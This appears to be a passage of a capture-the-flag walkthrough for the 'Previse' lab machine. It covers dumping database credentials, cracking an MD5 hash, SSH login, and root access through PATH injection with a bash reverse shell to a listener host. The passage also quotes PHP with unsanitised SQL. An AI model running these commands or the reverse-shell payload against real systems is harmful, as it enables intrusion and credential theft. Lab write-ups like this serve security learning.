Remember [earlier](#enumerating-sitebackup-zip)? We noticed that a connection was made to a MySQL instance running locally using the credentials `root`:`mySQL_p@ssw0rd!:)`. Let's try to connect to it:

```sh
www-data@previse:/var/www/html$ mysql -u root -p
```

```
Enter password: mySQL_p@ssw0rd!:)

<SNIP>

mysql>
```

### Version

Let's find out the version of MySQL in use.

```sh
mysql> SELECT @@version;
```

```
+-------------------------+
| @@version               |
+-------------------------+
| 5.7.35-0ubuntu0.18.04.1 |
+-------------------------+
<SNIP>
```

So it's MySQL version `5.7.35`.

### Databases

Now, let's see which databases are available.

```sh
mysql> SHOW databases;
```

```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
<SNIP>
```

The `previse` database is the only interesting one, and it's also the database used by the website.

### `previse`'s tables

Let's see which tables are included in this database.

```sh
mysql> SHOW tables;
```

```
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
<SNIP>
```

There's an `accounts` and a `files` database, but `accounts` is probably the most interesting.

### `accounts`'s columns

Let's continue our enumeration of this database by checking the content of the `accounts` table.

```sh
mysql> SELECT column_type, column_name FROM information_schema.columns WHERE table_name = 'accounts';
```

```
+--------------+---------------------+
| column_type  | column_name         |
+--------------+---------------------+
| char(32)     | USER                |
| char(60)     | HOST                |
| bigint(20)   | CURRENT_CONNECTIONS |
| bigint(20)   | TOTAL_CONNECTIONS   |
| int(11)      | id                  |
| varchar(50)  | username            |
| varchar(255) | password            |
| datetime     | created_at          |
+--------------+---------------------+
<SNIP>
```

Okay, so this table contains eight columns.

### `accounts`'s columns content

Let's retrieve the content of the `username` and `password` columns.

```sh
mysql> SELECT username, password FROM accounts;
```

```
+----------+------------------------------------+
| username | password                           |
+----------+------------------------------------+
| m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. |
| foooo    | $1$🧂llol$g3B.FbaG.kd5/kL6neZ5E. |
+----------+------------------------------------+
```

The passwords are hashed. There's also a salt emoji as part of a salt value... that's odd!

If we go back to the source code of the website we found [earlier](#enumerating-sitebackup-zip), we notice an `accounts.php` file. It's actually the one responsible for managing user account registrations.

The part related to the password hashing and the account creation in the database is this one:

```php
<SNIP>
$hash = crypt($password, '$1$🧂llol$');
$db = connectDB();
if ($db === false) {
    die("ERROR: Could not connect. " . $db->connect_error);
}                    
$sql = "INSERT INTO accounts (username, password) VALUES ('{$username}','{$hash}')";
<SNIP>
```

The `$1$` indicates to the `crypt` function to hash the password with the MD5 algorithm. Therefore, the passwords in the database are MD5 hashes!

Let's convert it to base64 in order to copy it properly.

```sh
mysql> SELECT TO_BASE64(password) FROM accounts WHERE username = "m4lwhere";
```

```
+--------------------------------------------------+
| TO_BASE64(password)                              |
+--------------------------------------------------+
| JDEk8J+ngmxsb2wkRFFwbWR2bmI3RWV1TzZVYXFSSXRmLg== |
+--------------------------------------------------+
<SNIP>
```

I'll decode it and save it in `/workspace/MD5.hash`

### Hash cracking

Let's use `hashcat` to attempt cracking `m4lwhere`'s MD5 hashed password.

```sh
❯ hashcat -m 500 /workspace/MD5.hash -a 0 /usr/share/wordlists/rockyou.txt
```

```
<SNIP>
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
<SNIP>
```

So his password is actually `ilovecody112235!`!

# Lateral movement (SSH)

Let's try these credentials with SSH.

```sh
❯ ssh m4lwhere@10.10.11.104
```

```
The authenticity of host '10.10.11.104 (10.10.11.104)' can't be established.
<SNIP>
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.104' (ED25519) to the list of known hosts.
m4lwhere@10.10.11.104's password:

<SNIP>

m4lwhere@previse:~$
```

## Home folder

Now we can retrieve the content of the user flag file. Let's do it:

```sh
m4lwhere@previse:~$ cat ~/user.txt
```

```
b817ba1cfc780566c50fa60e57e57206
```

## Sudo permissions

Let's see if we can execute anything as another user with `sudo`.

```sh
m4lwhere@previse:~$ sudo -l
```

```
<SNIP>
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

That's intriguing!

## Enumerating `/opt/scripts/access_backup.sh`

Let's check what this script does.

```sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

According to the comment the author left us, this script is configured to run with cron. It creates archives of the `/var/log/apache2/access.log` and `/var/www/file_access.log` files, and store them in `/var/backups`.

Let's check the permissions of this file:

```sh
m4lwhere@previse:~$ ls -la /opt/scripts/access_backup.sh
```

```
-rwxr-xr-x 1 root root 486 Jun  6  2021 /opt/scripts/access_backup.sh
```

Unfortunately, we have no way of editing it.

But if we look at this script more closely, we see that `gzip` is called relatively, the absolute path is not specified. This means that there's a path injection vulnerability!

# Privilege escalation (Path injection)

## Preparation

Let's create a `gzip` file to get a reverse shell.

I'll use [this website](https://www.revshells.com/) to find appropriate payloads.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp 9002
```

```
listening on [any] 9002 ...
```

Now, let's find the payload to obtain the reverse shell. I'll choose this one:

```sh
sh -i >& /dev/tcp/10.10.14.8/9002 0>&1
```

I'll add it to a `gzip` script in `/tmp`:

```sh
#!/bin/bash

sh -i >& /dev/tcp/10.10.14.8/9002 0>&1
```

Now I'll add the `/tmp` folder to the `PATH`.

```sh
m4lwhere@previse:~$ export PATH=/tmp:$PATH
```

## Exploitation

Time to see if it works!

```sh
m4lwhere@previse:~$ sudo /opt/scripts/access_backup.sh
```

And on the listener...

```
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.104] 43450
#
```

Nice!

This shell is quite limited though, so let's execute a Python one-liner to transform it into an interactive one:

```sh
# python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
root@previse:~#
```

That's better!

# Local enumeration

## Home folder

The only thing we need to do to finish this box is to retrieve the root flag. As usual, we can find it in `/root`!

```sh
root@previse:~# cat /root/root.txt
```

```
952d67417cf78c008cf1ab6180a9f31f
```

# Afterwords


That's it for this box! I found the foothold really interesting, it's actually the first time I encountered an EAR vulnerability. It was still fairly easy to identify the OS command execution vulnerability, and really easy to exploit. The privilege escalation was easy to identify, but slightly harder to exploit.

Thanks for reading!